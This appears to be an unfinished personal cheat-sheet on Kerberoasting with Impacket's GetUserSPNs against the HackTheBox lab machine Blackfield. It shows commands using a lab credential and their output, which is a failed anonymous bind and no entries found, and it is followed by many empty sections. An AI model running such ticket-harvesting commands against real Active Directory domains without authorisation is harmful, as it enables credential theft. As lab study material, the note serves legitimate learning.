 # Kerberoasting with GetUserSPNs

### [Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

> ... to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight' -usersfile users.txt
```
### Without creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```

### 
```

```
### Examples 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
